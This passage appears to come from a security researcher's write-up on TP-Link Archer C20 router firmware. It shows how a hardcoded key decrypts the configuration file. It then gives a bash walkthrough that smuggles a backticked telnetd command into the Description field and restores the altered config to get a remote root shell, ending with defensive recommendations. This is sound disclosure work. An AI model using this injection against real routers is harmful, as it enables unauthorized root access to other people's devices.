 Using this key, we can decrypt the config file and see the giant XML config. I wanted to see if I was the only researcher who was looking at this attack surface so I Googled the hardcoded key. It turns out that I wasn't alone.

![](/assets/tp_link_gdpr/tp_link_config_key_google.png)

The tpconf_bin_xml GitHub repository handles the encryption/decryption and compression/decompression of TP-Link config files [[link]](https://github.com/sta-c0000/tpconf_bin_xml). It also describes a command injection vulnerability found in the Description field in the DeviceInfo section. It was developed for the TP-Link TD-W9970, but I gave it a try on the Archer C20 and it worked!

```bash
# Downloaded the current config as ArcherC20V520121442010n.bin
python3 tpconf_bin_xml.py -l ArcherC20V520121442010n.bin ArcherC20V520121442010n.xml
# Added the command injection to the decrypted config file.
#
# Before:
#
# <Description val="AC750 Wireless Dual Band Router " />
#
# 
# After
#
# <Description val="AC750 Wireless Dual Band Router`telnetd -p 1023 -l login` " />
python3 tpconf_bin_xml.py -l ArcherC20V520121442010n.xml ArcherC20V520121442010n.payload.bin
# Then using the web interface, restore the ArcherC20V520121442010n.payload.bin config
telnet 192.168.0.1 1023
# Username: admin
# Password: 1234
```

Now we have a remote root shell! It's pretty depressing that this n-day has been on GitHub for three years and still isn't patched on firmware that was updated on 1/27/2021. I hope TP-Link eventually gets around to patching it across any or all device models.

## Security Recommendations

- Use cryptographically strong entropy from a crypto API when generating AES keys [[link]](https://developer.mozilla.org/en-US/docs/Web/API/Crypto)
- Generate the RSA public/private key-pair during the web server initialization on boot. If any malloc in `generate_rsa_private_key` fails, consider it an unrecoverable error and force the web server to exit.
- Use PKCS#1 padding when using RSA
- Do not modify the sequence entropy value to mitigate replay attacks
- Patch open source n-days
